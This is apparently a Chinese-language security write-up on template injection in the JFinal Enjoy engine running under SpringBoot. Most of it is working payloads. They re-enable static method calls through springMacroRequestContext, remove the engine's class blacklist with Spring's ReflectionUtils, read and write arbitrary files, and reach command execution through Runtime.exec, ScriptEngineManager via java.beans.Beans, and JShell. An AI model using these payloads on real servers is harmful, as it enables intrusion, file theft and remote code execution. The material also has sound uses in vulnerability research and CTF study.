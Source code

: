 Enjoy模板引擎是国产框架JFinal配套的，文档👉https://jfinal.com/doc/6-1

文档中声称`“在模板中可以直接与 java 代码通畅地交互”`

这对安全人员来说可是狂喜。大概过一遍文档，有几个值得注意的点

* 模板热加载

和其他模板引擎一样，为了方便开发时的调试以提高开发效率，Enjoy支持模板热加载，也就是不对模板解析结果进行缓存，每次都会重新读取模板文件来编译，通过如下配置

```java
engine.setDevMode(true);
```

* 属性访问调getter

EL表达式也支持点号调用getter特性

> field表达式取值优先次序，以user.name为例：
>
> * 若 user.getName() 存在，则优先调用
> * user 具有 public 修饰的 name 属性，则取 user.name 属性值
> * user 为Model、Record、Map的子类，调用 user.get("name")

* 静态属性/方法访问

 jfinal 5.0.2之后，默认”未启用“，需要添加如下配置

```java
engine.setStaticFieldExpression(true);
engine.setStaticMethodExpression(true);
```

`类名 + :: + 方法名(参数)`

* 输出指令

`#()`直接回显里面的表达式内容

* 赋值指令

`#set(x=yyyy)` 对变量进行赋值

* 包含指令

`#include("../../flag")`

`#render("../../flag")`

可以用这个直接读文件，传入的是相对模板目录的路径，跟less的`@import(inline) "../../flag"`一样

这里使用目前最新版本5.1.3

```xml
<dependency>
    <groupId>com.jfinal</groupId>
    <artifactId>enjoy</artifactId>
    <version>5.1.3</version>
</dependency>
```

# 开启静态方法调用

`SpringBoot`整合`Enjoy`模板引擎

```java
@Configuration
public class SpringBootConfig {
    @Bean(name = "jfinalViewResolver")
    public JFinalViewResolver getJFinalViewResolver() {
        JFinalViewResolver jfr = new JFinalViewResolver();

        jfr.setSuffix(".html");
        jfr.setContentType("text/html;charset=UTF-8");
        jfr.setOrder(0);
        jfr.setSessionInView(false);

        Engine engine  = JFinalViewResolver.engine;
        engine.setDevMode(true);
        engine.setToClassPathSourceFactory();

        return jfr;
    }
}
```

发现`JFinalViewResolver`是`AbstractTemplateViewResolver`的子类，这个模板视图解析抽象类对应的另一个类，`AbstractTemplateView`会在Model中放入一个Spring的宏变量。

![image-20231221210422500](./../.gitbook/assets/image-20231221210422500.png)

![image-20231221210433152](./../.gitbook/assets/image-20231221210433152.png)

`WebApplicationContext`不仅可以获取到`ServletContext`的引用，还可以获取到spring上下文，即可以访问到AOP容器中注册的Bean。

通过`springMacroRequestContext`获取注册的`JFinalViewResolver`，刚好其`engine`是public属性，拿到后再调用其public方法`setStaticMethodExpression`

```jsp
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticMethodExpression(true))
```

```jsp
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticFieldExpression(true))
```

# 黑名单绕过

![image-20231221210444759](./../.gitbook/assets/image-20231221210444759.png)

静态方法调用前有个WAF，设置了类和方法的黑名单

![image-20231221210454674](./../.gitbook/assets/image-20231221210454674.png)

把大部分常见的类和方法都禁掉了，但难免有漏网之鱼

## 读文件

```jsp
#set(x=com.sun.org.apache.xml.internal.security.utils.JavaUtils::getBytesFromFile('/flag'))
#((java.util.Base64::getEncoder()).encodeToString(x))
```

## 写文件

```jsp
#set(x="hacked".getBytes())
#set(y=(java.util.Base64::getDecoder()).decode('YWFhYQ=='))
#(com.sun.org.apache.xml.internal.security.utils.JavaUtils::writeBytesToFilename('/tmp/success',y))
```

## 清除黑名单

过滤了`removeForbiddenClass`和`removeForbiddenMethod`这两个方法，很容易想到通过反射来绕过，但同样`invoke`、`Method`也被过滤了，调用不了`Method#invoke`。`Enjoy`模板一般会搭配`SpringBoot`来使用，而`SpringBoot`内置了许多工具类，其中就有一个`ReflectionUtils`，封装了一系列反射有关的方法。

```java
public static Method findMethod(Class<?> clazz, String name, @Nullable Class<?>... paramTypes)
public static Object invokeMethod(Method method, @Nullable Object target, @Nullable Object... args)
```

完美绕开了`Enjoy`模板的黑名单

但还有一个问题，就是这里的参数需要为Class对象，`forName`、`Class`、`ClassLoader`、`Thread`等获取Class对象相关方法和类都被禁了，唯独没有禁`loadClass`，那我们只要拿到一个`ClassLoader`对象就能获取到Class对象了。不能实例化对象，只能通过静态方法来获取。主要有下面两种方法拿到`ClassLoader`对象

```java
// ClassLoader.getSystemClassLoader()
URLClassLoader.getSystemClassLoader()
```

```java
Thread thread = Thread.currentThread();
ClassLoader contextClassLoader = thread.getContextClassLoader();
```

第二种显然不行，`Thread`被ban了。

拿到后再调用`loadClass`来获取Class对象

```jsp
#set(methodKit=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("com.jfinal.template.expr.ast.MethodKit"))
#set(runTime=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("java.lang.Runtime"))
#set(clazz=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("java.lang.Class"))
#set(meth=org.springframework.util.ReflectionUtils::findMethod(methodKit,'removeForbiddenClass',clazz))
#(org.springframework.util.ReflectionUtils::invokeMethod(meth,null,runTime))
```

```jsp
#((java.lang.Runtime::getRuntime()).exec('calc'))
```

## js RCE

`com.jfinal.kit.ReflectKit#newInstance`能够实例化一个类

```java
public static Object newInstance(Class<?> clazz) {
    try {
        return clazz.newInstance();
    } catch (ReflectiveOperationException e) {
        throw new RuntimeException(e);
    }
}
```

```jsp
#set(clazz=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("javax.script.ScriptEngineManager"))
#set(engine=com.jfinal.kit.ReflectKit::newInstance(clazz))
#(engine.getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("calc")'))
```

好吧，高高兴兴地发现了一个可以用的方法，因为方法名被ban了。。。

后面找到了JDK自带的一个类`java.beans.Beans`

![image-20231221210511574](./../.gitbook/assets/image-20231221210511574.png)

`instantiate`首先会把类名当成序列化对象，加上`.ser`后缀，`ClassLoader.getSystemResourceAsStream`获取后进行反序列化。

或找不到序列化对象，再尝试直接实例化类。

![image-20231221210524691](./../.gitbook/assets/image-20231221210524691.png)

![image-20231221210531884](./../.gitbook/assets/image-20231221210531884.png)

```java
#set(engine=java.beans.Beans::instantiate(null, "javax.script.ScriptEngineManager"))
#(engine.getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("calc")'))
```

## JShell RCE

JDK9引入`jdk.jshell.JShell`

```java
#((jdk.jshell.JShell::create()).eval('Runtime.getRuntime().exec("calc")'))
```

